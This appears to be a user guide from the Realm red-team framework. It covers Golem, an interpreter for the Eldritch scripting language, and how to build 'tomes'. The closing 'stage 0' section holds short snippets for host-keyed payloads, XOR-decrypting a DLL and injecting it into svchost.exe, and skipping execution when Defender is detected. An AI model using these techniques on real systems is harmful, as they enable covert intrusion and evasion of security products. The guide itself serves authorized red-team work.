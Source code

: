 ```yaml
---
title: Golem
tags:
 - User Guide
description: Golem User Guide
permalink: user-guide/golem
---
```

## What is Golem

Golem is the standalone interpreter for Eldritch.
This program exists to help users get experience with the Eldritch language as well as a jumping off point if you're interested in implementing your own program using the Eldritch language.

Golem can also be used operationally as an alternative to a system native shell.
You can leverage the power of Eldritch with minimal exposure in the system process tree.

## Try it out

```bash
git clone git@github.com:spellshift/realm.git
cd realm/implants/golem
cargo run -- -i
# - or -
cargo build --release && \
    ../target/debug/golem ../../tests/golem_cli_test/tomes/hello_world.tome
```

## Creating and testing tomes

Golem is a great way to create and test tomes without deploying the entire Realm project.
Golem operates in three different modes:

- Interactive `-i`
- With embedded tomes _no args_
- On a specific tome `/path/to/tome/eldritch.main`

In this guide we'll leverage the last one.

### Tome structure

Copy an existing tome and rename it to your desired name.

```bash
[~/realm]$ cd tavern/tomes/
[./tomes]$ cp -r ./file_list ./new_tome
```

This will setup the boiler plate.
A tome file structure should look like this:

```
./new_tome/
├── files
│   └── test-file
├── main.eldritch
└── metadata.yml
```

_If you have no files associated with your tome you can ommit the `files` dir_

- main.eldritch - Defines our actual eldritch functionality and what will be executed on the agent.
- metadata.yaml - Defines information that tavern will use to prepare your tome including prompting users for input.

### Tome Metadata

Your tome Metadata should look like this:

```yaml
name: List files # The name of your tome.
description: List the files and directories found at the path # A description to help users understand what your tome does.
author: hulto # Your Github username.
support_model: FIRST_PARTY # Is this a tome that ships with Realm or not?
tactic: RECON # What stage of the MITRE ATT&CK chain does this tome fall into?
paramdefs: # A list of inputs the tome requires.
- name: path # The name of the input parameter `input_params['path']`.
  type: string # The type of the input parameter.
  label: File path # A Label that will be displayed in the UI to help users understand the purpose.
  placeholder: "/etc/" # A placeholder to give users an idea of how their input should be formatted.
```

### Building your eldritch script

Eldritch while it looks like python is distinct and many features in python do not exist in Eldritch.

For an almost complete list of syntax checkout the starlark (DSL which eldritch is based on) docs <https://bazel.build/rules/language>
*Note: The docs may be incorrect in some places as we're using the starlark-rust implementation which doesn't always adhere to the starlark spec.*

```python
# Define our function for the tome and any inputs
def file_list(path):
    # make sure you proactively check the state of the system.
    # Users may pass bad data in or the system may be in an
    # unexpected state so always check if something is a dir
    # before treatingi it like one.
    if file.is_dir(path):
        files = file.list(path)
        for f in files:
            type_str = ""
            if f['type'] == "Directory":
                type_str = "Dir"
            if f['type'] == "Link":
                type_str = "Link"
            if f['type'] == "File":
                type_str = "File"
            # Formatting - By default eldritch will print data as a JSON Dictionary which is easy for scripts to read but
            # not great for humans to make your tome more usable make sure you print data in a readable way.
            print(f['permissions']+"\t"+f['owner']+"\t"+f['group']+"\t"+str(f['size'])+"\t"+f['modified']+"\t"+type_str+"\t"+f['file_name']+"\n")
    else:
        print("Error: Invalid Path ("+path+")\n")

# Call our tomes function.
file_list(input_params['path'])
# `input_params` is a dictionary that's implicitly passed into the eldritch runtime.
# The key value pairs in input_params is defined by the users answers to the paramdefs in the UI.
# For example if you specify `name: path` in your `metadata.yml` file the UI will ask the user for
# a path and then populate the `path` key in `input_params` when the tome runs.
# Input params is unique to each task so setting a var in one task won't affect others.
print("\n")
print("\n")
```

### Design ideology

Tomes are designed to accomplish specific workflows.
Some small tomes have been created to accomplish basic sysadmin tasks like reading, writing files, checking processes etc.
Ideally though if you have a specific workflow you'll define it as a tome.
We want to avoid queueing multiple questst to accomplish a workflow.

## Golem embedded files

The Eldritch interpreter can embed files at compile time. To interact with these assets use the `assets` module in eldritch. In addition to programmatic access the embedded files can be automatically executed at run time. If no other option is specified `-i` or a file path, golem will iterate over every instance of `main.eldritch` in the embedded assets launching each one as a separate thread. This behavior is desirable when trying to perform recon or deploy persistence quickly.

## Golem as a stage 0

Golem can also be used as a stage 0 to load imix or other c2 agents.
This can help in a few ways such as:

- Keying payloads to specific hosts

```python
def main():
    if is_linux():
        if is_dir("/home/hulto/"):
            run_payload()
main()
```

- Executing encrypted payloads from memory

```python
def decrypt(payload_bytes):
    let res = []
    for byte in in payload_bytes:
        res.push(byte ^ 6)
    return res

def main():
    if is_windows():
        for proc in process.list():
            if "svchost.exe" in proc['name']:
                let enc_bytes = assets.read_bytes("imix.dll")
                sys.dll_reflect(decrypt(enc_bytes), proc['pid'], 'imix_main')
                return

main()
```

- Detecting security products before execution

```python
def main():
    for proc in process.list():
        if "MsMpEng.exe" in proc['name']:
            return
    run_payload()
main()
```
